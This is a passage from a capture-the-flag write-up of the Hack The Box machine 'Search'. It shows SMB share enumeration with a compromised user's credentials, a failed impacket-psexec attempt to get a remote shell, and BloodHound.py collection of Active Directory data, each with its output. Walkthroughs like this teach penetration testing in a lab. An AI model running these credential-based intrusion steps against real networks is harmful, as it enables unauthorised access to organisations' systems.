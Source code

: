 ```shell
  Downloads                         DRc        0  Thu Apr  9 22:35:49 2020
smb: \hope.sharp\> cd Downloads\
smb: \hope.sharp\Downloads\> dir
  .                                 DRc        0  Thu Apr  9 22:35:49 2020
  ..                                DRc        0  Thu Apr  9 22:35:49 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 22:35:49 2020
  desktop.ini                      AHSc      282  Thu Apr  9 22:35:02 2020
smb: \hope.sharp\Downloads\> cd ..\Desktop\
smb: \hope.sharp\Desktop\> dir
  .                                 DRc        0  Thu Apr  9 22:35:49 2020
  ..                                DRc        0  Thu Apr  9 22:35:49 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 22:35:49 2020
  desktop.ini                      AHSc      282  Thu Apr  9 22:35:00 2020
  Microsoft Edge.lnk                 Ac     1450  Thu Apr  9 22:35:38 2020
smb: \hope.sharp\Desktop\> cd ..\Documents\
smb: \hope.sharp\Documents\> dir
  .                                 DRc        0  Thu Apr  9 22:35:50 2020
  ..                                DRc        0  Thu Apr  9 22:35:50 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 22:35:51 2020
  desktop.ini                      AHSc      402  Thu Apr  9 22:35:03 2020
```

But nothing useful...

**Then I tried to use `impacket-psexec` to gain initial foothold, but no dice:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|15:45:43(HKT)]
└> impacket-psexec research.search.htb/hope.sharp:{Redacted}@research.search.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on research.search.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'CertEnroll' is not writable.
[-] share 'helpdesk' is not writable.
[-] share 'NETLOGON' is not writable.
[*] Found writable share RedirectedFolders$
[*] Uploading file mviCJdyM.exe
[*] Opening SVCManager on research.search.htb.....
[-] Error opening SVCManager on research.search.htb.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager
```

**Moreover, we can also use user `hope.sharp`'s credentials to use [bloodhound.py](https://github.com/fox-it/BloodHound.py) to collect and analyze all information about the Active Directory environment:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|15:57:07(HKT)]
└> bloodhound-python -u hope.sharp -p '{Redacted}' -ns $RHOSTS -d search.htb -c all
INFO: Found AD domain: search.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: research.search.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 113 computers
INFO: Connecting to LDAP server: research.search.htb
INFO: Found 107 users
INFO: Found 64 groups
INFO: Found 6 gpos
INFO: Found 27 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Windows-100.search.htb
[...]
```
